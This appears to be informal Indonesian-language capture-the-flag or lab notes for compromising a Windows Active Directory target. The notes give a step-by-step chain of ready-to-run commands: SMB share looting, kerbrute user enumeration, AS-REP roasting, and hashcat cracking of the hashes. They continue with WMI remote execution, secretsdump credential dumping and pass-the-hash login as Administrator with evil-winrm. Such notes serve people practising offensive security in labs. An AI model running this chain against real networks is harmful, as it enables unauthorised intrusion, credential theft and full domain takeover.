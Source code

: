 # 1. users.txt :

> scan semua, 445 ada tuh cek2 isinya

## enum smb

> smbclient -L //ip -> next masuk smbclient //ip/dir

> cek yg gada $, masuk aja get semua file

> cat 1 1, ambil semua username nya, bikin tools generate username dari gpt sama baca WU

> next generate wordlist pake tools tadi

## enum username

> next cek nama domain nya di scanning nmap, di ldap tuh, gausah masukin 0. nya

> go install kerbrute aja, next ke /home/go, pindah ke which $SHELL nya, pake aja

> kerbrute userenum -d namadomain --dc ip [wordlist]

> dapet tuh username2 yg ada disitu

## enum AS-REP roastable, vuln user enum, cek yg bisa run tanpa passwd

> impacket-GetNPUsers -no-pass -dc-ip [ip_target] -usersfile [usersvalid.txt] [namadomain]/

> usersvalid.txt cukup wordlist polosan aja gausah di @domain.local, jadi kalo john@domain.local, pake john aja

> namadomain cek di scan nmap tadi di ldap

> dah dapet tuh passwd hashnya

## enum passwd skid

> cek code hashmap kerberos, atau as-rep

> 18200 tuh dapet cek aja

> hashcat -m [codenya] [hashnya] /ke/rockyou.txt

## enum: disk smb for user :

> smbmap -u [uname] -p [password] -H [ip]

> cek aja nanti baru smb kesana

> kelar smb kesana ke yg baru2 noh netlogon misal

> get aja ada catatan reset password, baca aja disitu ada creds, username nya tapi ga kapital

> smbmap lagi pake user yg baru dapet itu, ada tuh ampe admin2

## rce access shell via WMI :

> impacket-wmiexec domain/[uname]:[passwd]@[ip]

## dump all creds :

> impacket-secretsdump domain/[uname]:[passwd]@[ip]

## get hash passwd :

> kan ada ini

> Administrator:500:xxx:yyy:::

> ambil Administrator sama yyy nya -> admin:hash

## login as admin :

> evil-winrm -i [ip] -u [username ato admin] -h [hashnya] -N

## klaim all flag

